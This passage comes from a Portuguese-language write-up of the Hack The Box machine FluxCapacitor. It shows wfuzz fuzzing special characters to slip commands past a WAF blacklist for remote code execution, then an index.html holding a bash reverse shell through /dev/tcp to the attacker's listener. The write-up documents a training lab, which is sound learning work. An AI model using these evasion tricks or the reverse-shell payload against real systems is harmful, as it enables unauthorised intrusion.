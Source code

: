 Temos que arrumar um jeito de bypassar esse filtro, possivelmente esse WAF deve ter algum tipo de blacklist de chars, que se tiver algm ele da erro, sei disso pq enviando apenas `?opt='l'` não da erro, mas se eu enviar `?opt='ls'`, da erro

### Fuzzing de chars

Com o wfuzz vamos tentar descobrir se temos algum char que podemos colocar entre o `l` e o `s` para bypassar isso 

`wfuzz -w /usr/share/seclists/Fuzzing/special-chars.txt -c -u http://10.10.10.69/sync?opt=FUZZ --hc 403`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-fluxcapacitor/F_wfuzz2.png)

Bom verificamos dois possíveis que podem ser usados, o `'`,o `\` e o `''`, comprovando que vai dar certo, é só testarmos no nosso terminal

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-fluxcapacitor/F_u6.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-fluxcapacitor/F_u7.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-fluxcapacitor/F_u8.png)

Bom, verificamos que não faz diferença para o bash se tem ou não esses chars. Mas para o WAF que tem lá possivelmente faz sim, pq ele deve filtrar, testamos na aplicação então

Opa! Temos RCE!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-fluxcapacitor/F_u9.png)

# Exploração

### Pegando uma reverse shell

Bom, uma vez que temos RCE na máquina, agora vamos pegar um reverse shell nela

Vamos explorar dois modos de se fazer isso, o primeiro de maneira manual, o segundo utilizando o msfvenom para criação de um payload que será executado pelo servidor

#### 1º Modo manual

Bom, uma vez que sabemos que temos RCE na máquina e tem alguns bad chars que a aplicação não deixa ser executado, o ideal é criarmos o arquivo de shell na nossa máquina e fazer com que a máquina se conecte na minha e execute

Vamos lá, primeiro tenho que ter o arquivo de shell criado na máquina e ligar o Python HTTP Server e o nc na porta 443 pra receber a conexão reversa. Tudo isso pra máquina vir buscar na minha o arquivo e executar ela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-fluxcapacitor/F_u10.png)

index.html
```
bash -i >& /dev/tcp/10.10.16.117 0>&1
```
